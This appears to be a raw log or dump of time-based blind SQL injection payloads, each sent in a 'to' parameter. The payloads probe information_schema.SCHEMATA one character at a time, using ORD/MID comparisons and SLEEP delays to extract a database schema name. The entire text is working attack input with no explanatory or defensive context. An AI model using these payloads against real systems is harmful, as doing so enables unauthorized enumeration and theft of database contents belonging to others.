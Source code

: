 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=101,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=80,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>80,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=88,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>88,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=92,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>92,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=94,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>94,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=95,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=115,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}